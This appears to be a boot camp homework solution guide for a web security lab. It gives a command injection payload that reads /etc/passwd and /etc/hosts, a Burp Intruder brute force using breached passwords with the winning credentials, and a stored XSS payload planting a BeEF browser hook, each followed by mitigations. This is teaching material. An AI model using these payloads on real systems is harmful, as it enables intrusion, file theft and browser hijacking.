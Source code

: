 # Unit 15 Homework Solution Guide

## Web Application 1: *Your Wish is My Command Injection*

You were tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   **Hint:** Try testing out a command directly on the command line to help design your payload.

### Solution

The payload to access `/etc/passwd` is  ` 8.8.8.8 && cat ../../../../../etc/passwd`.
  
  - The response should resemble: 
  
    ```
    PING 8.8.8.8 (8.8.8.8): 56 data bytes
    64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=10.782 ms
    --- 8.8.8.8 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 10.782/13.324/19.145/3.394 ms
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ........(more records from the /etc/passwd)
    ```


The payload to access `/etc/hosts` is   ` 8.8.8.8 && cat ../../../../../etc/hosts`.
  
  - The response should resemble:

    ```            
    PING 8.8.8.8 (8.8.8.8): 56 data bytes
    64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=14.212 ms
    --- 8.8.8.8 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 11.580/13.453/14.394/1.118 ms
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    192.168.13.25	ab6396809425
    ```
  
**Deliverable:** There are many acceptable mitigations, including server-side input validation and server-side access control on files and directories.


## Web Application 2: *A Brute Force to Be Reckoned With*
 
Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators who accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

   - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     
     - [Breached list of Passwords](breached_passwords.txt)
  
   - Hint: Refer back to the Burp Intruder activity `10_Brute_Force` from Day 3 for guidance.

### Solution

- After using Burp Intruder, the only user/password combination that should work is:
    
    - User:  `tonystark`
    
    - Password: `I am Iron Man`

- After rendering the page for this success record, the message will say: `Successful login! You really are Iron Man :)`

**Deliverable:** There are many acceptable mitigations, including password controls such as password rotation, password lockout, and multi-factor authentication.

## **Web Application 3** : *Where's the BeEF?*

You were tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.

- Task details:

  - The page you will test is the Replicants Stored XSS application, which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`.
  - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`.
  - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`.

-  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
  - **Hint:** Try right-clicking and selecting "Inspecting the Element."
    
- Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. 

### Solution

- The field does not have enough space to fit the entire payload. 

  ![A screenshot displays the XSS message field ](sol1.png)

- In order to add the entire payload, the `message` field length needs to be expanded.

  - *Note that this can also be accomplished using BURP to bypass the client-side limitations.*
  
  - To accomplish this, right-click within the `message` field and select `Inspect Element`.

    ![A screenshot displays the "Inspect Element" field](sol2.png)


- At the bottom of this page, you can find the `message` field HTML parameters.

  - Manually change the `max length` field from 50 to 100.

  ![A screenshot displays the "max length" field](sol3.png)

 
- Return to the origin page and enter the entire payload: `<script src="http://127.0.0.1:3000/hook.js"></script>` and click `sign guestbook`.

- When you return to BeEF, you can see your new browser has been hooked, allowing you to run a variety of BeEF commands.

  ![A screenshot displays the hooked new browser](sol4.png)


**Deliverable:** Users can implement server-side input validation to protect against the XSS attack. Users should have strong endpoint protection to monitor for exploits such as BeEF running within their browser. Additionally, some browsers have built-in controls to protect against BeEf hooking their browsers.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.

